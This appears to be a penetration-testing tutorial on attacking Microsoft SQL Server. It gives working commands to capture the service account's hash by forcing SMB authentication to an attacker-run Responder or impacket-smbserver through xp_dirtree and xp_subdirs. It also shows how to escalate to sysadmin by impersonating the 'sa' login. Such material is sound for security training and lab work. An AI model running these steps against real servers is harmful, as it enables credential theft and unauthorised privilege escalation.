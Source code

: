 ### Capture MSSQL Service Hash
We can also steal the `MSSQL` service account hash using `xp_subdirs` or `xp_dirtree` undocumented stored procedures, which use the SMB protocol to retrieve a list of child directories under a specified parent directory from the file system. 
To make this work, we need first to start `Responder` or `impacket-smbserver` and execute one of the following SQL queries:
```
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
```
XP_DIRTREE Hash Stealing
```
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```
XP_SUBDIRS Hash Stealing
```
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

### Impersonate Existing Users with MSSQL
SQL Server has a special permission, named IMPERSONATE, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. Let's explore how the IMPERSONATE privilege can lead to privilege escalation in SQL Server.
First, we need to identify users that we can impersonate. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:
```
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
We have a list of users that we can impersonate (in the example below it will be sa)

To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:
Verifying our Current User and Role
```
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
As the returned value 0 indicates, we do not have the sysadmin role, but we can impersonate the sa user.
Impersonating the SA User
```
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
We can now execute any command as a sysadmin as the returned value 1 indicates. To revert the operation and return to our previous user, we can use the Transact-SQL statement REVERT.
